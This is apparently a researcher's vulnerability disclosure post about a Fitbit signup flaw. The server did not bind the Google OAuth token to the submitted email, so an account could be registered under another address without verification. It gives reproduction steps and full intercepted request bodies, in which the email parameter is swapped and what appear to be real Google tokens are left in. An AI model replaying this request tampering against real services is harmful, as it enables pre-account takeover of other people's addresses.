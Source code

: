 +++
title = " Unauthorization of Oauth Token Leads to Pre Account Takeover without Verifying"
date = "2022-03-08"
author = "0xdroopy"


+++

## Summary 

On Fitbit official website I was able to register with any account without verifying the email because of the vulnerability Broken Authentication. This was due to the unauthorization of the Oauth token with respect to the email address which was being transferred to the server.

{{< image src="https://miro.medium.com/max/1400/1*3z3zxJj_GzArgT2SIy529w.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Functionalities
On fitbit.com there are 2 functionalities to register in the account. One is normal functionality of email address and password whereas other is the functionality of Oauth by which you can register using your google account. In the Oauth functionality, after logging through you would be directly be logged in to the account. Whereas in the normal functionality, you have to verify the email in order to go for further registration of details.
  
### Functionalities On Register Page
{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

### When Try to Register Using Normal Functionality
{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## The Unauthorization of Oauth Token

By logging through the Oauth Functionality, accounts.google.com sends the Oauth Token to the website who requested to be logged in using Google Functionality. Then the website authorize the token and thus extracts the email address fromit. The authorization of the Oauth Token and the Email Address go step by step till the end of the registration of the account. At the end the server uses the cookies same as the oauth token being provided for further logins.

{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Steps To Reproduce

1) Make Two New Google Accounts and name them as Account 1 and Account 2.

2) Go to https://accounts.fitbit.com/signup and now login with the Account 1 using Google Oauth Functionality.

3) Now after clicking next put your height , weight etc. and Start intercepting the requests.

4) After that Click Submit and in the burp suite change the email address from Account 1 to Account 2.


```json
email=testemailaddressforfit1%40gmail.com&password=asuidahsdhaw&birthday=2006-03-08&emailSubscribe=true&firstName=Test&lastName=Account&gender=MALE&height=185.42&heightUnit=en_US&weight=65&weightUnit=METRIC&locale=en_US&localeLang=en&localeCountry=United+States&timezone=Asia%2FKolkata&legalTermsAccepted=true&googleUID=107045151452751939515&googleAccessToken=ya29.A0ARrdaM8eNFf87_O5ah4jQzQLQl8J7Guj7lcAvJul7Sae0OAAniUF-OSCYN4dbXNeLFxMNk-8EyfhbdiT9BlbIgujPCDPK3qqq0nWNjg_IUuEjAmTQgyZpdk6MQQsVzeTHEugRxsqFxjmXi8OEvxiC1bkOr4y&googleIdToken=eyJhbGciOiJSUzI1NiIsImtpZCI6ImQ2M2RiZTczYWFkODhjODU0ZGUwZDhkNmMwMTRjMzZkYzI1YzQyOTIiLCJ0eXAiOiJKV1QifQ.eyJpc3MiOiJhY2NvdW50cy5nb29nbGUuY29tIiwiYXpwIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwiYXVkIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwic3ViIjoiMTA3MDQ1MTUxNDUyNzUxOTM5NTE1IiwiZW1haWwiOiJ0ZXN0ZW1haWxhZGRyZXNzZm9yZml0MUBnbWFpbC5jb20iLCJlbWFpbF92ZXJpZmllZCI6dHJ1ZSwiYXRfaGFzaCI6IlpyQ2YyR09ZSVM3MENxVGszRlE1TkEiLCJpYXQiOjE2NDY3NDUzMDQsImV4cCI6MTY0Njc0ODkwNH0.qipJa4CC2UDuR8hzW0mIRtJ1-w3xPXZlY_UriCsCK86PcjrZYQ0O3W3FjXYYCel-Vv2LZg_20Qa7sb1vVgy5lceQR7QnUSWBMZoCUEkqaXfTZ8NAyF_Bm3inneDJRkLPuQxwJQRbA0PCqUew7b-Z2OZ10KeqzJqalYstjkAJMXnbd_UTwGdx8d8cdQxJ3dni-5boPvejaoj2qkOzriUYaqrQNZN3Z-UrE_5dV8ux98zAK8ejK3BRquZ0mPWpf_p48QrMYKec7QLahH4rDE1wq4tdQPJz5EZLtcEAwx9IlNKijzjyhKPSdNjRn7zlPxPL5Pqcf7e99gToq5Bjr0GK3w&client_id=228TQF
```

To -

```json
email=testemailaddressforfit2%40gmail.com&password=asuidahsdhaw&birthday=2006-03-08&emailSubscribe=true&firstName=Test&lastName=Account&gender=MALE&height=185.42&heightUnit=en_US&weight=65&weightUnit=METRIC&locale=en_US&localeLang=en&localeCountry=United+States&timezone=Asia%2FKolkata&legalTermsAccepted=true&googleUID=107045151452751939515&googleAccessToken=ya29.A0ARrdaM8eNFf87_O5ah4jQzQLQl8J7Guj7lcAvJul7Sae0OAAniUF-OSCYN4dbXNeLFxMNk-8EyfhbdiT9BlbIgujPCDPK3qqq0nWNjg_IUuEjAmTQgyZpdk6MQQsVzeTHEugRxsqFxjmXi8OEvxiC1bkOr4y&googleIdToken=eyJhbGciOiJSUzI1NiIsImtpZCI6ImQ2M2RiZTczYWFkODhjODU0ZGUwZDhkNmMwMTRjMzZkYzI1YzQyOTIiLCJ0eXAiOiJKV1QifQ.eyJpc3MiOiJhY2NvdW50cy5nb29nbGUuY29tIiwiYXpwIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwiYXVkIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwic3ViIjoiMTA3MDQ1MTUxNDUyNzUxOTM5NTE1IiwiZW1haWwiOiJ0ZXN0ZW1haWxhZGRyZXNzZm9yZml0MUBnbWFpbC5jb20iLCJlbWFpbF92ZXJpZmllZCI6dHJ1ZSwiYXRfaGFzaCI6IlpyQ2YyR09ZSVM3MENxVGszRlE1TkEiLCJpYXQiOjE2NDY3NDUzMDQsImV4cCI6MTY0Njc0ODkwNH0.qipJa4CC2UDuR8hzW0mIRtJ1-w3xPXZlY_UriCsCK86PcjrZYQ0O3W3FjXYYCel-Vv2LZg_20Qa7sb1vVgy5lceQR7QnUSWBMZoCUEkqaXfTZ8NAyF_Bm3inneDJRkLPuQxwJQRbA0PCqUew7b-Z2OZ10KeqzJqalYstjkAJMXnbd_UTwGdx8d8cdQxJ3dni-5boPvejaoj2qkOzriUYaqrQNZN3Z-UrE_5dV8ux98zAK8ejK3BRquZ0mPWpf_p48QrMYKec7QLahH4rDE1wq4tdQPJz5EZLtcEAwx9IlNKijzjyhKPSdNjRn7zlPxPL5Pqcf7e99gToq5Bjr0GK3w&client_id=228TQF

```

5) After Forwarding the request , you would be successfully signed up with the Account 2 Email address without verifying.

{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

 
## Demonstration

{{<iframe width="420" height="315"
src="https://www.youtube.com/embed/DjbVqwm3DtI">
</iframe>}}

